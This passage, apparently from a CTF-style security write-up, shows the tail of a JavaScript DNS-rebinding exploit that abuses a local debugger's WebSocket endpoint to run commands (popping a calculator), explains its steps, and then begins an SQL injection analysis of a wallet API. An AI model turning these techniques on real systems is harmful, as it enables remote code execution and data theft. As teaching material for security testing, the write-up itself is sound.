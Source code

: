 ```
                          ws.close()
                  };
                  ws.onerror = err => console.error('failed to connect');
          };
        exploit(item.webSocketDebuggerUrl)
        });
}, 60000) // 60 seconds;
</script>
</body>
</html>
```

This Javascript file does the following:

1 - Invokes the setTimeout() function to trigger the code execution after some the user reaches the html page (this will give time for the DNS server to change its resolving IP to 127.0.0.1)
2 - We make a fetch request to get the file, in 'http://127:0.0.1:9334/json' that will present to us the webSocketDebuggerUrl corresponding to the debbuger.
3 - The exploit() funtion creates the WS request that will act as the payload and execute the commands in the machine.
4 - We initialize the exploit sending the webSocketDebuggerUrl of the debuger, which will prompt a calc.

Now we go to `http://a.<your VPS IP>.1time.127.0.0.1.4time.rebind.network:9334/dnsrebinding.html'` , wait for a minute until the JS is executed and finally our calc is up.



## SQL Injection


By doing SAST over the server code, it is always interesting to take a look to the code that handles the SQL queries. In this case, we can find it in the /express-api/data/index.js file. Every query seems to be using sanitized input except for the getWalletID() function that passes the "walletId" directly from the URL.


![](./sqlcode1.png)


We track down the vulnerable function by doing `grep -rin --exclude-dir=node-modules --exclude-dir=test getWalletById`:

We enter the "express-api/controllers/wallets.ctrl.js" file in which the function is invoked
